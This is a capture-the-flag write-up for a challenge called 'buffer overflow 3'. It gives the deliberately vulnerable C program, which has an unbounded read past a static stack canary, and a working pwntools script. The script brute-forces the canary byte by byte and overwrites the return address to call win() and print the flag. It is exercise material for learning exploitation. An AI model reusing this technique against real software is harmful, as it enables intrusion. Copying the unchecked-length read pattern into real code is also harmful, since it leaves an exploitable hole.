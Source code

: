 buffer overflow 3 - Points: 450
===========

## Description

>It looks like Dr. Xernon added a stack canary to this program to protect against buffer overflows. Do you think you can bypass the protection and get the flag?

## Hint:

> * Maybe there's a smart way to brute-force the canary?

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 32
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("Canary is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

## Useful Information

```
$nm canary_bypass|grep win
080486eb T win
```

## Exploit

**REQUIRE** :[Pwntools Python](https://github.com/Gallopsled/pwntools)

> 1. Overflowing the canary letter after letter and check error message.
> 2. Overflowing EIP with Win() Address

```python
#!/usr/bin/python2.7
# -*- coding: utf-8 -*-
from pwn import *
import re

#To Complete
user=""
password=""
host=""

path_exec="/problems/buffer-overflow-3_1_2e6726e5326a80f8f5a9c350284e6c7f"
Name_prog="canary_bypass"
sh = ssh(host=host,user=user,password=password).run("sh")#process(path_exec+"/vuln",cwd=path_exec)
sh.sendline("cd "+path_exec)

pay2=32*"A"
pay1=str(len(pay2))
canary=""

win=p32(0x80486eb)
sh.recv(4096)
sh.recv(4096)
for a in range(4):
    print("TEST LETTER %d" % a)
    for b in range(1,256):
        print("TEST SUB-LETTER %c" % b)
        sh.sendline("./vuln")
        print("How many = "+sh.recv())
        sh.sendline(str(len(pay2+canary)+1))
        print("Input = "+sh.recv())
        sh.sendline(pay2+canary+(chr(b)))
        output=sh.recv()
        print("OUTPUT = "+output)

        if not re.search("Corrupt",output):
            print("FOUND %d" % b)
            canary+=chr(b)
            break
print("CANARY = "+canary)
payload=pay2+canary+"A"*16+win
sh.sendline("./vuln")
sh.recv()
sh.sendline(str(len(payload)))
sh.recv()
sh.sendline(payload)
print("FLAG "+sh.recv())
sh.close()
```
